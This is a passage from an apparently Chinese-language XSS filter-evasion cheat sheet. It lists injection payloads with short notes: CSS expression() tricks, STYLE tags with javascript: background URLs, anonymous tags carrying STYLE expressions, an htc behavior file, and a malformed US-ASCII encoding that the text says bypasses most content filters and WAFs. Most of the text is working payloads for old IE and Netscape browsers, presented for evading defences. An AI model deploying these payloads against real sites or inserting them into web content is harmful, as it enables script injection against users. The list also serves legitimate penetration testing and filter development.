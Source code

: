 这是上面 xss 向量的混合体。但是它是展示了 STYLE 标签被分隔有多困难。同样它也会在 ie 下造成循环弹窗。

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

## STYLE 标签（仅支持老版本的 Netscape）

```
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
```

## 使用 background-image 的 style 标签

```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

## 使用 background 的 style 标签

```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
```

## 匿名 html 标签的属性

IE6.0 和使用了 ix 渲染引擎的 Netscape 8.1+ 并不会关心你建立的 html 标签存在与否。只要它是以尖括号以及字符开始的。

```
<XSS STYLE="xss:expression(alert('XSS'))">
```

## 本地 htc 文件

它有一个小的不同与上面的 xss 向量，因为他使用的 htc 文件必须是当前域的文件。这个文件通过样式属性引入并运行 javascript 代码实现 xss。

```
<XSS STYLE="behavior: url(xss.htc);">
```

## US-ASCII 编码

US-ASCII 编码 (发现被 Kurt Huwig)。它是使用畸形的 ASCII 编码用 7bits 代替 8bits. 这个 xss 可以绕过绝大多数内容过滤，但是必须当前域的传输形式为 US-ASCII 编码方式。或者你自己去设置这种编码方式 。它是有用的去绕过 web 应用防火墙 xss 过滤比服务器端的过滤。Apache 的 Tomcat 是众所周知的 使用 US-ASCII 编码传输协议。

```
¼script¾alert(¢XSS¢)¼/script¾
```

## META

关于 meta refresh 比较奇怪的是他并不是发送一个刷新请求头。因此他通常用于不需要引用 url 的攻击。
